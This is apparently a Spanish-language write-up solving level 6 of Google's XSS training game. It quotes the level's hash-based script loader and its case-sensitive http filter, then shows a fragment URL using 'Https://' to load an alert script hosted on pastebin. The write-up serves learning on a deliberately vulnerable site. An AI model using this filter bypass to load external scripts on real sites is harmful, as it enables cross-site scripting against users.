 #[6/6]  Level 6: Follow the 🐇

#Mission Description

Complex web applications sometimes have the capability to dynamically load JavaScript libraries based on the value of their URL parameters or part of location.hash. 

This is very tricky to get right -- allowing user input to influence the URL when loading scripts or other potentially dangerous types of data such as XMLHttpRequest often leads to serious vulnerabilities.

#Mission Objective

Find a way to make the application request an external file which will cause it to execute an alert(). 

# Write Up Iker 

Primero que nada vamos a mirar el código fuente de la página para analizar correctamente la prueba.

Observando la foto del index.html y su contenido parece que sólamente nos deja cargar los scripts de la carpeta **/static/gadget.js** que luego ejecuta el contenido en el navegador.

```javascript
getGadgetName() 
{ 
  return window.location.hash.substr(1) || "/static/gadget.js";
}
```

Además tiene un código que evita que se pueda cargar scripts desde una URL con el siguiente código:

```javascript
// This will totally prevent us from loading evil URLs!
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
````

Aquí podemos pensar en dos maneras para ejecutar el código:
  - 1 Intentar modificar el contenido de ```/static/gadget.js```
  - 2 Intentar hacer un **Bypass** de la comprobación de obtener y ejecutar el script mediante una URL 

Vaya, vaya, vaya...se pone algo complicado...

Tras muchas vueltas, hemos elegido la segunda opción por la siguiente razón: **REGEX** y **CASE SENSITIVE**
¿Porque? Porque el Regex de la consulta sólamente verifica que la URL sea **"https?"**, es decir, que si ponemos **"Https?** o ****"hTtps?** o **"hTTps?** etc nos dejaría hacer el Bypass ya que el resultado no coincidiría y podríamos cargar el script desde una URL.

Ahora tenemos que conseguir conlgar nuestro script en alguna URL y montar la URL de la consulta para que pueda ejecutarla.
La mejor página para hacer esto es **www.pastebin.com**. Te permite escribir un código HTML, JavaScript, etc, colgarlo online y ponerle fecha de expiración.

Creamos el script de alerta en pastebin.com y copiamos la URL con el mensaje **ZASCA!**:

```javascript alert('ZASCA!') ```

En este caso hemos creado la siguiente URL: ``` https://pastebin.com/raw/ny1kd5mC```

Y tenemos la siguiente URL completa para pasarsela al navegador:

``` https://xss-game.appspot.com/level6/frame#https://pastebin.com/raw/ny1kd5mC ```

**ERROR**!!! Recordar el **REGEX** que es **CASE SENSITIVE** y que debemos cambiar algún parámetro del https

Ahora quedaría de esta forma (modificamos la **H** del principio del **https** a **MAYUSCULAS** así **Https**:

``` https://xss-game.appspot.com/level6/frame#Https://pastebin.com/raw/ny1kd5mC ```

Nos muestra un cuadro de texto indicando que hemos pasado de nivel y completado el Juego de XSS de Google :) 

:beers: :v: :sunglasses: :v: :beers:

Iker Burguera
